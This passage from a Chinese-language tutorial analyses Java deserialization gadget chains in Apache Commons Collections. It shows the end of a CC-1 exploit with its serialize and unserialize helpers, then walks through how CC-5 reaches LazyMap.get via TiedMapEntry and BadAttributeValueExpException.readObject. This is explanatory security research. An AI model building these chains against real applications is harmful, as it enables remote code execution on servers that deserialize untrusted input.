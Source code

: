```bash
        Object newInstance = annotationInvocationhdlConstructor.newInstance(Override.class,mapProxy);

        serialize(newInstance);
        unserialize("ser.bin");
    }

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
```

## CC-5 分析

### 分析过程

CC-5 就是接住了 CC-1 铺好的路，我们先来看一下 TiedMapEntry 类中的 toString 方法

```bash
public String toString() {
        return getKey() + "=" + getValue();
    }
```

调用了 getValue() 方法

```bash
public Object getValue() {
        return map.get(key);
    }
```

getValue() 里面有个 map.get(key),而这个 map.get 就可以嫁接我们在 cc1 中讲到的 LazyMap.get 这个思路。

```bash
public TiedMapEntry(Map map, Object key) {
        super();
        this.map = map;
        this.key = key;
    }
```

在该类的构造方法传入 map，然后我们在寻找哪里 readObject 方法调用了 toString，

BadAttributeValueExpException 类的 readObject 中有调用 val 成员变量的 toString 方法。val 成员变量是私有属性，我们可以通过反射修改成 TiedMapEntry 的实例对象。即可完成调用
